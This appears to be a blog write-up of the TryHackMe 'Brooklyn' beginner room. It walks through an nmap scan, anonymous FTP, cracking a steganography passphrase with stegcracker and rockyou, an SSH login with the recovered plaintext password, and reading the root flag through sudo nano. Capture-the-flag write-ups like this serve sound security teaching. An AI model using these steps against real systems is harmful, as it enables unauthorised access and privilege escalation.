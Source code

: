 ```yaml
---
title: TryHackMe - brooklyn
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, ftp, ssh, http, stenography, SUID]
image:
    path: /assets/img/brooklyn/0.jpeg
    alt: brooklyn
---
```


# Brooklyn

This room is aimed for beginner level hackers but anyone can try to hack this box.  
There are two main intended ways to root the box.  


# Tasks
- Read the User and root flag.  

# nmap

## ip = `10.10.36.221`

## Command 
```sh

 nmap -sV -sC -A -v 10.10.36.221 |tee nmap.txt
```
## Results
```sh
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 0 0
119 May 17 2020 note_to_jake.txt
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.8.172.59
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| 256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_ 256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site does not have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# ftp_21
Has `anonymous` log in allowed and has a text file in it.  
 ![](/assets/img/Brooklyn/1.png)
 
## Details
![](/assets/img/Brooklyn/2.png)

Two users  
- `Jake` = has a weak password  
- `holt` =Looks like he has some privileges   

# http_80

## To Do list
- visit he site
- View the source code
- visit robots.txt
- run gobuster

The site has an image and the source code tells us something to do with stenography.  
**![](/assets/img/Brooklyn/2.png)

Download the image.  
Use the following command to crack the image passphrase.  
```sh
stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 
```
![](/assets/img/Brooklyn/4.png)

From This we get  
![](/assets/img/Brooklyn/5.png)

- user = `holt`
- password = `fluffydog12@ninenine`

# ssh_22

## Details

- users = `jake` and `holt`
- port 22 open
- Password for `holt` = `fluffydog12@ninenine`


Lets try ssh to holt using the following info

## ssh login
```sh
	ssh holt@10.10.36.221	
	#password = fluffydog12@ninenine
```  
![](/assets/img/Brooklyn/6.png)

# Privilege Escalation

## To Do List
- sudo -l  
- cat /etc/crontab  

![](/assets/img/Brooklyn/7.png)
## sudo -l
We get that we can run `/bin/nano` with root privileges without a password.  
I will try to read the root flag since i have the flag name format from user .txt.  
```sh
 	sudo /bin/nano /root/root.txt
 ```
![](/assets/img/Brooklyn/8.png)
 